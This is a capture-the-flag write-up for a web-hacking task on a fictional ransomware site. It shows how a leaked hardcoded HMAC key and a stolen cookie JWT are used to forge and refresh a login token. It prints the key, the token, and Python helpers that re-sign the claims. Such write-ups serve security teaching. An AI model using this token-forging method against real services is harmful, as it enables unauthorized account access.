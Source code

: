 # Task 6
## Category: Web Hacking/Redacted
### Prompt:
We've found the login page on the ransomware site, but we don't know anyone's username or password. Luckily, the file you recovered from the attacker's computer looks like it could be helpful.

Generate a new token value which will allow you to access the ransomware site.
### Provided Materials:
- None
### Task Goal:
- User level authentication token
### Steps:
To start, we have to figure out how new users are created. Looking at the source code acquired in task b2, we can see the function for generating a token in util.py:

```python
def generate_token(userName):
	""" Generate a new login token for the given user, good for 30 days"""
	with userdb() as con:
		row = con.execute("SELECT uid, secret from Accounts WHERE userName = ?", (userName,)).fetchone()
		now = datetime.now()
		exp = now + timedelta(days=30)
		claims = {'iat': now,
		          'exp': exp,
				  'uid': row[0],
				  'sec': row[1]}
		return jwt.encode(claims, hmac_key(), algorithm='HS256')
```
The site uses JSON Web Tokens (JWTs) to authenticate it's users. From this function it's clear that there are four required claims:
1. iat (Issued At)
2. exp (Expiration)
3. uid (User ID)
4. sec (Secret)

as well as the HMAC key used in the HS256 encryption:
```python
def hmac_key():
	return "v3e1sgmbRnCfBdSuUBEuXFQgPZgnlwum"
```
The iat and exp claims are generated on token creation, so we only need to find a user's sec value and their UID.

In the previous task we got a netscape cookie that includes a JWT value:
```
# Netscape HTTP Cookie File
wiybrlehcuuflsbz.ransommethis.net    FALSE    /    TRUE    2145916800    tok    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTI5MzkxMTIsImV4cCI6MTY1NTUzMTExMiwic2VjIjoiS3dvYmV3Y1daSEhocWVCVm9VTGVsMFVHeUh6VGF6YzgiLCJ1aWQiOjMyMzQyfQ.bpKQ81q5f035Huol1WSUAwwXXx_uVEoRGSi0Y-c2l_U
```

I wrote some python functions to help interact with the site:

```python
def get_hmac():
    return "v3e1sgmbRnCfBdSuUBEuXFQgPZgnlwum"
def create_token(iat, exp, uid, secret):
    return jwt.encode({'iat': iat, 'exp': exp, 'sec':secret, 'uid':uid,}, get_hmac(), algorithm='HS256')
def refresh_token(token):
    claims = decode_token(token)
    claims['exp'] = datetime.now()+timedelta(days=30)
    return create_token(claims['iat'], claims['exp'], claims['uid'], claims['sec'])
def decode_token(token):
    return jwt.decode(token, get_hmac(), algorithms=['HS256'], options={'verify_exp': False})
```

Using decode_token() on the token in the netscape cookie gives us the two claims for our compromised user:

![Alt text](../images/task_6_decoded.png "Screenshot of a python terminal showing the decode_token function in use")
Then we can either use the create_token function with the discovered claims, or simply use the refresh_token function to fix the exp and iat claims.

![Alt text](../images/badge6.png "Badge for task 6")
